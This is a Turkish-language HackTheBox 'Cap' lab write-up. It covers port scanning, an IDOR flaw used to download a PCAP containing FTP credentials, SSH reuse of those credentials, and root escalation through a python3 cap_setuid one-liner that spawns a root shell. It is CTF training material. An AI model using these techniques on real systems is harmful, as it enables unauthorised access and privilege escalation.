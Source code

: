 ```yaml
---
title: 'HackTheBox | Cap WriteUp'
author: appdone
categories: [HackTheBox Machines]
tags: [idor, linux capabilities]
render_with_liquid: false
media_subpath: /images/hackthebox_cap/
image:
  path: logo.webp
---
```


## Özet

Web uygulamasının PCAP dosyalarını indirdiğimiz alanında bir IDOR zafiyetinin olduğunu öğrenecek ve sırasıyla tüm PCAP dosyalarını indirip, inceleyeceğiz. PCAP dosyalarından birinde bulduğumuz kullanıcı bilgileri ile SSH servisine bağlanacak, daha sonra ise python dosyasının setuid yeteneğinin olduğunu öğrenecek ve bu yetenekten yararlanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.10.245         
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
...
```

Tarama sonucunda üç adet port'un açık olduğunu ve HTTP servisinde çalışan uygulamanın bir yönetim paneli olduğunu öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Web uygulamasında "colorlib" tarafından yapılmış, dört sayfadan oluşan bir güvenlik teması kullanılıyor. "IP Config" ve "Netword Status" sayfasında belirli komutlardan dönen sonuçlar bulunuyor.

![](2.webp){: width="1200" height="600" }

Son sayfada ise PCAP dosyalarını indirebileceğimiz bir bölüm var.

![](3.webp){: width="1200" height="600" }

## Sömürü aşaması

İndirme butonuna tıkladığımızda bizi "/download/4" sayfasına yönlendiriyor. Bu sayfada ise URL adresinde belirtilen numaraya karşılık gelen PCAP dosyasını indiriyor. Numarayı "0" olarak değiştirdikten sonra indirip, wireshark aracılığıyla görüntülediğimizde FTP servisine ait kullanıcı bilgileri ile karşılaşıyoruz.

![](4.webp){: width="1200" height="600" }

FTP servisinde bağlandıktan sonra ise nathan kullanıcısının dizininde olduğumuzu öğreniyoruz ve dizin geçişlerinin açık olduğunu görüyoruz. Haliyle aynı kullanıcı bilgilerini kullanarak SSH servisine bağlanabileceğimizi düşündüm ve bağlandıktan sonra ise ilk bayrağı almak için user.txt dosyasını görüntüledim.

```console
nathan@cap:~$ cat user.txt 
56c***1d8
```

## Yetki yükseltme

### root

Hatırlarsanız, web uygulamasında sistemde bir komut çalıştırdıktan sonra sonuçlarını doğruca ekrana yazdıran bir sayfa vardı. Uygulamanın arka planda ne yaptığını görmek için /var/www/html sayfasına gittiğimizde python'u kullanarak kullanıcı ID'sini 0 yaptığını ve komut çalıştırdığını görüyoruz.

```py
def capture():
        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)
                                                                                                                                                                                              
        return redirect("/data/" + str(pcapid))
```

0 ID'si root kullanıcısına ait olduğundan root yetkisinde komut çalıştırdığını düşünebiliriz. Bunu yapabilmesi için python dosyasına setuid yeteneğinin verilmesi gerekiyor. Kontrol ettiğimizde setuid yeteneğinin olduğunu görüyoruz.

```console
nathan@cap:/var/www/html$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Aynı komutun sadece komut çalıştıracağımız alanını değiştirdikten sonra çalıştırdığımızda root kullanıcısına geçiş yapıyor ve son bayrağı kendi dizininden alıyoruz.

```console
nathan@cap:/var/www/html$ python3 -c 'import os; os.setuid(0);os.system("bash")'
root@cap:/var/www/html# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt 
857***bad
```
